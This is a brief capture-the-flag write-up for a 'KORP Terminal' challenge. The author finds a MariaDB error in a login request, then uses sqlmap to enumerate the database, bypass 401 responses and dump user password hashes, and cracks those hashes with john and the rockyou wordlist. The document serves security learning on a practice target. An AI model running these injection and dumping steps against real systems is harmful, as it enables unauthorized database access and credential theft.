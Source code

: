# KORP Terminal

So here is the page we are greeted with:

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nothing much happening here, nothing in the source code, so i go on and capture a request

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i tried some basic sql bypasses but nothing seems to be a low hanging fruit but i was able to make an interesting error pop:

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we got some mariaDB behing this, but since i wan't to be quick i copy all the content in the request tab and put it in a txt file:

```
sqlmap -r req.txt
```

<figure><img src="../../../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We get blocked because of the response code but we can continue by ignoring this:

```
sqlmap -r req.txt --ignore-code 401 --dbs
```

<figure><img src="../../../../.gitbook/assets/image (12) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req.txt --ignore-code 401 --tables korp_terminal
```

<figure><img src="../../../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req.txt --ignore-code 401 --tables users --columns
```

<figure><img src="../../../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req.txt --ignore-code 401 -T users -C password --dump
```

<figure><img src="../../../../.gitbook/assets/image (15) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now that we have our hash we can try to bruteforce ir:

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt.gz
```

and we find the password (we could guess that smh...)
